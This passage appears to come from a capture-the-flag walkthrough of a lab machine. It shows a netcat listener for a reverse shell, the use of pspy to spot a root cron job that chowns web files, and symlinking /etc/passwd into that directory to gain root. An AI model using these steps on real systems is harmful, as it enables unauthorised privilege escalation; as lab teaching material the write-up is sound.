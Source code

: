 ```bash
nc -nlvp 443
```
and send the request with burpSuite

and whoami look where we are 

```bash

hostname -I
192.168.100.92
```




## Privilage Escalation 

we will analyze crontabs with pspy 

```bash
default  lab.zip  local.txt  public_html
[root@cereal rocky]# ./lab.zip 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done

```
we will find this after 10 minutes of intercepting cron tasks 

```bash 
2023/06/26 00:25:23 CMD: UID=0     PID=1      | chown rocky:apache /home/rocky/public_html/back_en /home/rocky/public_html/index.php /home/rocky/public_html/php.js /home/rocky/public_html /style.css
```
so we have to make symbolic link to the/etc/passwd in  /home/rocky/public_html/back_en in order to gain  root privilages

```bash
bash-4.4$ ln -s -f /etc/passwd passwd
```
now let's wait for the change using watch
